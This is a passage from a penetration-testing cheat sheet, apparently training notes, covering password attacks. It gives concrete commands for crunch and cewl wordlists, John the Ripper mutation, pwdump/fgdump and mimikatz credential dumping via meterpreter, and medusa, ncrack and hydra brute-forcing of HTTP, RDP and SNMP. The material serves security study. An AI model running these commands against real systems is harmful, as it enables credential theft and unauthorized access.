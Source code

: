         -   `crunch 4 4 -f /usr/share/crunch/charset.lst mixalpha`

        -   `crunch 8 8 -t ,@@^^%%%`

    -   Pwdump and Fgdump - Security Accounts Manager (SAM)

        -   `pwdump.exe` - attempts to extract password hashes

        -   `fgdump.exe` - attempts to kill local antiviruses before
            attempting to dump the password hashes and
            cached credentials.

    -   Windows Credential Editor (WCE)

        -   allows one to perform several attacks to obtain clear text
            passwords and hashes. Usage: `wce -w`

    -   Mimikatz

        -   extract plaintexts passwords, hash, PIN code and kerberos
            tickets from memory. mimikatz can also perform
            pass-the-hash, pass-the-ticket or build Golden tickets
            [*https://github.com/gentilkiwi/mimikatz*](https://github.com/gentilkiwi/mimikatz)
            From metasploit meterpreter (must have System level access):
            ```
            meterpreter> load mimikatz
            meterpreter> help mimikatz
            meterpreter> msv
            meterpreter> kerberos
            meterpreter> mimikatz_command -f samdump::hashes
            meterpreter> mimikatz_command -f sekurlsa::searchPasswords
            ```

    -   Password Profiling

        -   cewl can generate a password list from a web page
            `cewl www.megacorpone.com -m 6 -w megacorp-cewl.txt`

    -   Password Mutating

        -   John the ripper can mutate password lists
            nano /etc/john/john.conf
            `john --wordlist=megacorp-cewl.txt --rules --stdout > mutated.txt`

    -   Medusa

        -   Medusa, initiated against an htaccess protected web
            directory
            `medusa -h $ip -u admin -P password-file.txt -M http -m DIR:/admin -T 10`

    -   Ncrack

        -   ncrack (from the makers of nmap) can brute force RDP
            `ncrack -vv --user offsec -P password-file.txt rdp://$ip`

    -   Hydra

        -   Hydra brute force against SNMP

            `hydra -P password-file.txt -v $ip snmp`
